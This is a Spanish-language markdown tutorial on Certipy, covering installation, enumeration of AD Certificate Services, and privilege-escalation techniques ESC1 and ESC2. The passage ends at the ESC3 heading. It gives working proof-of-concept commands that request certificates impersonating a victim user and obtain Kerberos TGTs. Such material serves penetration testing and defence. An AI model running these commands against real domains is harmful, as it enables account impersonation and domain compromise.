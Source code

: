 
## Certipy: Instalación y Uso Básico

Certipy facilita la enumeración y explotación de debilidades en ADCS.

```bash
pip install certipy-ad
```

**Enumeración básica de las CAs y plantillas:**
```bash
certipy find -u user -p password -d domain.local -target dc.domain.local
```

---

## Privesc de Certificados en AD: ESC1 a ESC16

### ESC1: Plantillas Autenticables

**Descripción:**  
Plantillas de certificados configuradas para permitir la autenticación de usuarios, pero sin restricciones en los campos SAN (Subject Alternative Name).

**Por qué funciona:**  
Permiten solicitar un certificado para cualquier usuario, incluso sin privilegios especiales, si la plantilla tiene "ENROLL" permitido para usuarios autenticados y permite modificar el SAN.

**PoC:**
```bash
certipy req -u usuario -p pass -ca CA-Server -template <plantilla> -target <victima> -upn <victima@dominio.local>
```
Con esto, puedes obtener un TGT de Kerberos como la víctima.

---

### ESC2: Permisos de Inscripción

**Descripción:**  
Usuarios sin privilegios pueden inscribirse en plantillas demasiado permisivas.

**Por qué funciona:**  
El grupo "Authenticated Users" tiene derechos de inscripción en plantillas que permiten Client Authentication.

**PoC:**
```bash
certipy req -u usuario -p pass -ca CA-Server -template <plantilla>
# Luego obtener TGT con:
certipy auth -pfx <.pfx obtenido>
```

---

### ESC3: Permisos de Control sobre Plantillas
